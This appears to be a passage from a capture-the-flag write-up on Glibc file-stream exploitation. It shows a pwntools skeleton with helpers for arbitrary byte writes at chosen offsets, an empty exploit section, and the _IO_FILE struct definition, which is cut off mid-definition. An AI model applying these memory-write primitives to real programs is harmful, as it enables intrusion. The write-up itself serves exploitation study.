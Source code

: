 ```python
def trick(offset, value):
    r.sendline(b"2")
    r.sendlineafter(b"offset:", str(offset).encode())
    r.sendafter(b"value:", str(value).encode())
    r.recvuntil(b">")

def write_addr(offset, addr):
    addr = p64(addr)
    for i in range(8):
        trick(offset+i, addr[i])

def exit_bin():
    r.sendline(b"0")
#========= exploit here ===================



#========= interactive ====================
r.interactive()
```

There are several options to browse the Glibc source code. You can download it from their [official repo](https://www.gnu.org/software/libc/sources.html), you can browse it [online](https://code.woboq.org/) or you can clone the repository locally, as I did in this post from [this repo.](https://github.com/bminor/glibc)

The *fp* FileSream is defined in Glibc on the struct *_IO_FILE* as follow.

```c
struct _IO_FILE
{
  int _flags;   /* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr; /* Current read pointer */
  char *_IO_read_end; /* End of get area. */
  char *_IO_read_base;  /* Start of putback+get area. */
  char *_IO_write_base; /* Start of put area. */
  char *_IO_write_ptr;  /* Current put pointer. */
  char *_IO_write_end;  /* End of put area. */
  char *_IO_buf_base; /* Start of reserve area. */
  char *_IO_buf_end;  /* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```